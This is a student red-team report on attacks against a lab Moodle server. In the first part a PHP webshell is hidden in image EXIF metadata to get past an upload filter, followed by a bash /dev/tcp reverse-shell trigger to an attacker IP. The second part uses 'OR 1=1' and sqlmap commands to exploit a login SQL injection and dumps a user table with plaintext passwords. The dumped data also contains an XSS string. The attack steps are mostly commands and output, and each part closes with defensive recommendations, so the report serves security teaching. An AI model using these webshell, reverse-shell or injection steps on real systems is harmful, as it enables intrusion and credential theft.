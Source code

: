 # 🛡️ SSI Project – Red Team Exploitation Report
  
  This report presents the various exploitation attempts made as part of the Information Systems Security (ISS) project, from a Kali Linux machine aimed at compromising the Moodle web server hosted on Ubuntu.
  The aim was to obtain a reverse shell using an upload vulnerability.
  
  ## First attack

---
  
  ## 🔍 Objective
  
  The aim of the attack was to :
  
  - Bypass the **upload file filtering** system
  - Upload a **file containing malicious PHP code**.
  - Execute this code remotely via the browser
  - Establish a **reverse shell connection** to the Kali machine (attacker)
  
  ---
  
  ## 🔓 Technical context
  
  - Target machine (victim)** : Ubuntu 22.04, Moodle server with an upload form
  - Attacking machine** : Kali Linux on the same local network (192.168.56.X)
  - PHP-side back-end filtering** prevents the upload of suspicious files via a blacklist of strings such as :
  
  php
  eval(, system(, exec(, shell_exec(, base64_decode(,
  passthru(, pcntl_exec(, posix_getuid(, <script>, etc.
  
  ---
  
  🧨Attack I – Reverse Shell Attempts
  
  ### Step 1: Create a PHP reverse shell
  
  On Kali, I created a basic shell:

  ```bash
  <?php system($_GET['cmd']); ?>
  ```
  
  ### Step 2: Attempt to bypass with double extensions
  
  - First attempt: rename file to shell.php.png
  - Then: shell.png.php

  ![image](https://github.com/user-attachments/assets/00e97c40-51be-48d6-8671-289b41d04f29)

  I then tried uploading the malicious file:   
           ![image](https://github.com/user-attachments/assets/699bb173-b445-476f-9f4a-ee2bbad396f5)


  We obtained :
  
  ![image](https://github.com/user-attachments/assets/26c0b211-1f3f-4d17-b24f-16c3fb27d836)
  
  🔴 Failed: The backend detected the malicious content, despite the file appearing as an image.
  
  
  Error message:
  
  
  ❌ File failed security scan
  
  
  ---

      
  Filtering Bypass Attempts
  
  Attempt: Appending PHP payload directly to an image
  
  ```bash
  echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
  mv shell.png shell.php.png
  ```

       
  Working Solution: Metadata Injection + Obfuscation 

1. Copy a clean image
  
```bash
cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
```
2. Create a discrete PHP payload (obfuscated)
  
```bash
echo "<?php @call_user_func('system', \$_GET['cmd']); ?>" > payload.txt
```

3. Inject this payload into a discrete metadata
  
```bash
exiftool -Artist="$(cat payload.txt)" shell.png
```

4. Rename the image to fool the uploader (double extension)
  
```bash
mv shell.png shell.php.png
```

5. Check that your payload is there

```bash
exiftool shell.php.png
```
  
6. Upload successful  
  
![image](https://github.com/user-attachments/assets/24ff24d8-0afd-49c9-a9ed-a2ddf21052de)
      
  
  The file passed the scan because :
  
  - The visible image content was clean
  
  - The malicious payload was hidden in metadata
  
  - No blacklisted strings were detected
  
  
  ---

  Final Goal: Trigger Remote Code Execution
  
  1. Start a Netcat listener on Kali:
  
     ```bash
     nc -lvnp 4444
     ```
  
     ![image](https://github.com/user-attachments/assets/f4e72480-6804-4099-8820-356d4f934546)
      
   2. Trigger the payload through the browser
      ```bash
      http://192.168.56.101:5173/upload/shell.php.png?a=system&b=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.56.102/4444+0>%261'
      ```   
  
  Conclusion :
  
  Although the full reverse shell wasn’t successfully established (due to server-side execution restrictions or PHP config), the following was achieved:
  
  ✅ Successfully bypassed file upload filtering
  ✅ Uploaded a disguised PHP webshell
  ✅ Injected a stealthy payload using image metadata
  ✅ Identified and documented backend protections
  
  This demonstrates that poorly configured file upload systems remain vulnerable, especially when tools like exiftool can inject code into alternate vectors like metadata.
  
  
  
  
  Blue Team Recommendations :
  
  To improve the defense against such attacks:
  
  ✅ Implement deep filtering of metadata (Title, Description, EXIF Comment)
  
  ✅ Disable PHP execution in upload directories
  
  ✅ Rename and hash uploaded files server-side
  
  ✅ Add server-side antivirus scanning (e.g., ClamAV) and sandbox execution for analysis
  
  ---
  
  ## Second attack
  
  ---
  
  ## 🔍 Objective
  The goal of this attack was to:
  * Detect SQL injection vulnerabilities in the login process
  * Exploit the injection to extract data from the database
  * Demonstrate the risk of improperly handled SQL inputs
  * Retrieve sensitive information from the ssi_project database
  
  ---
    
  ## 🔓 Technical Context
  * Target (Victim): Ubuntu 22.04 running Apache2, MySQL 8.0, Moodle web service
  * Attacker (Red Team): Kali Linux, connected via internal network (192.168.56.X)
  * Login page vulnerable to SQL injection via POST parameter username
  * No input sanitization or prepared statements in the PHP back-end
  
  --- 
  ## 💥 Attack I – SQL Injection on Login Form
  
  ### Step 1: Reconnaissance and Injection Point
  The login form sends POST data to login.php:
  ```bash
  curl -X POST -d "username=test&password=test" http://192.168.56.100:8082/login.php
  ```
  Observed response:
  ```bash
  {"status": "error"}
  ```
  ![image](https://github.com/user-attachments/assets/60e6235f-f04b-4ba6-8fc6-c954126cd1c9)
  
  Testing with crafted payload:
  ```bash
  curl -X POST -d "username=' OR 1=1 -- -&password=x" http://192.168.56.100:8082/login.php
  Still returns:
  ```
  {"status": "error"}
  
  ![image](https://github.com/user-attachments/assets/64f92c05-19b1-4545-822c-e85994fd79b5)
  
  ### Step 2: Use sqlmap to Confirm Injection
  Using sqlmap:
  ```bash
  sqlmap -u "http://192.168.56.100:8082/login.php" --data="username=test&password=test" --batch --level=5 --risk=3
  ```
  
  Result:
  * SQLi confirmed on username via error-based, boolean-based, time-based, and UNION injection
  * Extracted tables: users, events
  
  
  ### Step 3: Dumping Database Contents
  #### 1: Detecting SQL Injection
  ```bash
  sqlmap -u "http://192.168.56.100:8082/login.php" \
         --method=POST \
         --data="username=test&password=test" \
         --batch --level=2 --risk=1
  ```
  Result: SQLMap identified that the username parameter is injectable via:
  
  Boolean-based blind
  
  Error-based
  
  Time-based blind
  
  UNION-based injection
  
  DBMS: MySQL >= 5.6
  
  #### 2: Database Enumeration
  
   List all databases
  ```bash
  sqlmap -u "http://192.168.56.100:8082/login.php" \
         --method=POST \
         --data="username=test&password=test" \
         -b --dbs
  ```
  ✅ Found database: ssi_project
  
   List tables from ssi_project
  ```bash
  sqlmap -u "http://192.168.56.100:8082/login.php" \
         --method=POST \
         --data="username=test&password=test" \
         -D ssi_project --tables
  ```
  
  ![image](https://github.com/user-attachments/assets/0882f0ff-8d11-40aa-bd27-e272df636eb9)
  
  ![image](https://github.com/user-attachments/assets/694a4ce4-672c-49df-b5e5-57c5e434a13a)
  
  ✅ Found tables: users, events
  
  #### 3: Dumping User Credentials
  ```bash
  sqlmap -u "http://192.168.56.100:8082/login.php" \
         --method=POST \
         --data="username=test&password=test" \
         -D ssi_project -T users --dump
  ```
  ![image](https://github.com/user-attachments/assets/d22ef777-7b28-4937-813a-2716f1a7460e)
  
  Extracted records:
  ```bash
  Database: ssi_project
  Table: users
  +----+----------------------+---------+----------+----------+
  | id | email                | role    | password | username |
  +----+----------------------+---------+----------+----------+
  | 1  | vince@bare.com       | student | bare     | vincent  |
  | 2  | jules@fedit.com      | teacher | fedit    | jules    |
  | 4  | gauthier@mallard.com | student | mallard  | gauthier |
  +----+----------------------+---------+----------+----------+
  
  ```
  ⚡ These passwords appear to be stored in plaintext, which is a major security vulnerability.
  
  And then with events table : 
  ```bash
  Database: ssi_project                                                                                                                                                   
  Table: events
  [3 entries]
  +----+---------+-----------------------------------------+------------+---------------------------------------+
  | id | user_id | title                                   | event_date | description                           |
  +----+---------+-----------------------------------------+------------+---------------------------------------+
  | 1  | 2       | Cours de PHP                            | 2025-04-02 | Introduction au langage PHP           |
  | 2  | 1       | R\\u00e9vision s\\u00e9curit\\u00e9 web | 2025-04-05 | <script>alert(\\"XSS!\\");<\\/script> |
  | 3  | 1       | Examen final                            | 2025-04-10 | Salle 203 - 14h                       |
  +----+---------+-----------------------------------------+------------+---------------------------------------+
  
  ```
  ![image](https://github.com/user-attachments/assets/9dc84bb9-a2b9-4104-949c-b87e0f961d48)
  
  
  ## ✅ Achievements
  * Detected and exploited a critical SQL injection vulnerability
  * Fully extracted user credentials and event data
  * Demonstrated the lack of prepared statements and input validation
  
  ## 🛡️ Blue Team Recommendations
  1. Use prepared statements with parameter binding
  2. Hash passwords using password_hash() instead of storing them in plaintext
  3. Implement WAF (Web Application Firewall) to block SQLi attempts
  4. Limit SQL error output in production to avoid exposing database structure
  5. Log and monitor login attempts to detect anomalies
  6. Use LIMIT 1 and safe user query patterns
  This report validates the critical impact of SQL injection and demonstrates the ease of database compromise in the absence of secure coding practices.
